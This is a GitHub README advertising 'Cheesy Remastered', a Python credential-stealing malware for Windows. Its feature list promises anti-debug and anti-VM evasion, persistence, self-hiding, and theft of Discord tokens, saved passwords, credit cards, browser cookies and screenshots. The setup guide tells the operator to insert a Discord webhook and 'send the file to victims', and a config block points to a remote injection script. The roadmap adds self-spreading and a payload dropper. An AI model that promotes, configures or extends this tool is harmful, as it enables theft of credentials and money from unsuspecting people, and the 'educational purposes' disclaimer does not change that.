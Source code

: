 <h1 align="center">
  Cheesy Remastered
</h1>

<p align="center"> 
  <kbd>
<img src="https://cdn.kkgmedia.com/pop-cat.gif">
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/eclipse-marketplace/last-update/cheesy?style=flat-square">
</p>

<h2 align="center">
  Cheesy was made with

K78 ❌ tesco ✅

</h2>

**NOTE:** \
Cheesy was made for educational purposes, therefor all consequences caused by your actions are **your** responsibility and accountability.


---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://discord.gg/ys8WBY8VEQ)
- [🎉・Setting up Cheesy](#setup)
- [⚙・Config](#config)
- [🔎・Why choose Cheesy?](#why_cheese)
- [🌟・Todo/Enhancements](#enhancements)
- [📝・Changelog](#changelog)

## <a id="features"></a>🔰 〢 Features

```
> Anti-vm/Anti-debug
> Improved upon Rdimo's project and added Obfuscation using the Nuitka Project
> Add to startup
> Hides itself
> Supports github.com/Rdimo/Discord-Webhook-Protector so webhook can't be deleted or spammed
> Options are configurable
> Pretty Fast Even if it Was Made With Python
> Windows Product Key & Build Info
> IP & Geolocation. (Country, City, Google Maps Location)
> A screenshot of all their monitors
> All valid/working discord tokens. (Bypasses BetterDiscord, Token Protector and Discord's new encryption)
> Their Passwords & Credit Cards for Discord (updates when they change it)
> All Passwords, Cookies and History from Google
> + More!
```

---

## <a id="setup"></a> 📁 〢 Setting up Cheesy

1. Install [python](https://www.python.org/) and add it to [path](https://datatofish.com/add-python-to-windows-path/).
2. Open up [main.py](https://github.com/bananaman2020/cheesy/blob/master/main.py) with notepad or some other editor
3. Locate the config at the top of the file and Replace "WEBHOOK_HERE" with your [discord webhook](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
4. Double Click `setup.bat` and allow it to finish.
5. A Window will open prompting for a name. Put something in such as "Token_Logger" (You can always rename the file later)
6. Send the file to victims. 😈

## <a id="config"></a>⚙ 〢 Config

If you want to change the config, open up [main.py](https://github.com/bananaman2020/cheesy/blob/master/main.py) and locate it at the top. There you can configure the following:

```py
config = {
    # replace WEBHOOK_HERE with your webhook ↓↓ or use the api from https://github.com/Rdimo/Discord-Webhook-Protector
    # Recommend using https://github.com/Rdimo/Discord-Webhook-Protector so your webhook can't be spammed or deleted
    'webhook': "WEBHOOK_HERE",
    # ONLY HAVE THE BASE32 ENCODED KEY HERE IF YOU'RE USING https://github.com/Rdimo/Discord-Webhook-Protector
    'webhook_protector_key': "KEY_HERE",
    # keep it as it is unless you want to have a custom one
    'injection_url': "https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js",
    # if True, it will ping @everyone when someone ran Hazard v2
    'ping_on_run': False,
    # set to False if you don't want it to kill programs such as discord upon running the exe
    'kill_processes': True,
    # if you want the file to run at startup
    'startup': True,
    # if you want the file to hide itself after run
    'hide_self': True,
    # does it's best to prevent the program from being debugged and drastically reduces the changes of your webhook being found
    'anti_debug': True,
    # this list of programs will be killed if hazard detects that any of these are running, you can add more if you want
    'blackListedPrograms':
    [
      ...
    ]

}
```

---

## <a id="why_cheese"></a>🔎 〢 Why choose Cheesy?

idk i did this so like piss off egirls and shit

Here are some pros and cons why/why not use Cheesy instead of other ones

### ✔ Pros

⁃ Extremely well maintained, making it a safe choice \
⁃ Partly undetected just because it gets updates often \
⁃ Easy to use and setup \
⁃ Completely free and open source \
⁃ Loads of wide spread features not only focused on discord \
⁃ Cleans itself up, deleting all traces of itself which suprisingly most others don't \
⁃ Supports a webhook protector \
⁃ Even thought it's made in python it's very fast thanks to async and threading \
⁃ Clean embed & isn't spammy like others making it less likely to get ratelimited \
⁃ Takes feedback and listens to what people want to be added/changed/removed

### ❌ Cons

⁃ Made in Python making it lose to other grabbers in terms of speed \
⁃ Python is an interpreted language, it needs to pack the engine & all dependencies making the file size very big \
⁃ Only supports windows 10/11 \
⁃ Can be pretty easily decompiled (still harder than Mercurial atleast)

In the end it's just up to **you** to choose what grabber suits you and your needs the best.

---

## <a id="enhancements"></a>🌟 〢 todo/enhancements

~~overlined~~ = feature got added

- Grab Webcam (screenshot?, video?) 
- Fake Error (custom message, type, etc...)
- File dropper (direct payload link, options: hide it? add to startup? drop location?)
- Self spread 
- Grab Wifi passwords 
- Better Anti-vm/Anti-debug (check screen size?, more registery checks?, make the lists outbound?)
- Exe builder (clean gui, toggable options, compress exe (file size <= 8mb), etc...)
- ~~Grab Chrome history~~
- ~~Grab Minecraft accessToken ~~
- ~~Grab hwid (for manual blacklisting)~~
- ~~Grab more network info (ip, geolocation, etc...) and put in seperate txt file~~
- ~~General info (OS, CPU, GPU, RAM, etc...) and put in seperate txt file~~

Not adding/on hold:
- .doc/.pdf file grabbing 
- Metamask Priv Key and seed 

---

## <a id="changelog"></a>💭 〢 ChangeLog

```diff
v1.0.2 : 01-08-2022
+ updated exe builder to play nicely with nuitka
- im losing my sanity

v1.0.1 : 01-08-2022
+ nvm fuck pyarmor
+ i love nuitka (new obfuscator)
- pyarmor got fucked in the ass haha L not paying for ur shit

v1.0.0 : 31-07-2022
+ Lost the old source code so rebuilt based off Hazard
+ Will include pyarmor to obfuscate code
```


<br>

<p align="center">
🌟 <b>Enjoyed Cheesy?</b> Consider dropping a star :)
<br>
Upgraded by bananaman2020 based off Rdimo
<br>
<a href=#top>Back to Top</a></p>
